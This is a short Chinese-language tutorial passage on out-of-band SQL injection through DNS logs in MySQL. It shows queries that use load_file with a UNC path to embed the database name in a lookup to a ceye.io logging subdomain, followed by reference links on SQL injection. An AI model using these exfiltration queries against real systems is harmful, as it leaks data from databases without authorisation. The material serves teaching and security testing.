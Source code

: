### DNSLOG注入

**DNS在解析的时候会留下日志，通过读取多级域名的解析日志，来获取信息。简单来说就是把信息放在高级域名中，传递到自己这，然后读取日志，获取信息。**

dnslog平台：[http://ceye.io/](http://ceye.io/)

```
mysql> use security;
Database changed

mysql> select load_file('\\\\test.xxx.ceye.io\\abc');
+-------------------------------------------+
| load_file('\\\\test.xxx.ceye.io\\abc') |
+-------------------------------------------+
| NULL                                      |
+-------------------------------------------+
1 row in set (22.05 sec)

mysql> select load_file(concat('\\\\',(select database()),'.xxx.ceye.io\\abc'));
+----------------------------------------------------------------------+
| load_file(concat('\\\\',(select database()),'.xxx.ceye.io\\abc')) |
+----------------------------------------------------------------------+
| NULL                                                                 |
+----------------------------------------------------------------------+
1 row in set (0.00 sec)
```

![](php/figure/preg\_match/sqli1.png)

## 参考资料

* [SQL 注入速查表](http://drops.xmd5.com/static/drops/tips-7840.html)
* [MySQL 注入技巧](http://drops.xmd5.com/static/drops/tips-7299.html)
* [MySQL 注入科普](http://drops.xmd5.com/static/drops/tips-123.html)
* [MySQL 注入总结](http://www.91ri.org/4073.html)
* [《SQL 注入攻击与防御》](http://product.dangdang.com/23364650.html)
